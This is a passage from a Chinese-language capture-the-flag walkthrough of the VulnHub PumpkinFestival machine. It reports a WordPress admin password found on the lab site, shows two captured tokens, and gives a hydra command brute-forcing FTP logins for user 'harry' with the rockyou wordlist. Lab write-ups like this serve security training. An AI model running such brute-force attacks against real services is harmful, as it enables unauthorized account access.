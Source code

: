通过之前 wpscan 的扫描结果,还存在一个用户 admin ,最开始的网站主页最底下有个 Alohomora! 就是 admin 的密码


登录后发现2处 token

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinFestival/11.png)

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinFestival/12.png)

```
PumpkinToken : f2e00edc353309b40e1aed18e18ab2c4
PumpkinToken : 06c3eb12ef2389e2752335beccfb2080
```

接下来爆破 FTP,主页中提到过一个用户名 harry
```bash
hydra -l harry -e nsr -P /usr/share/wordlists/rockyou.txt ftp://192.168.141.130
```
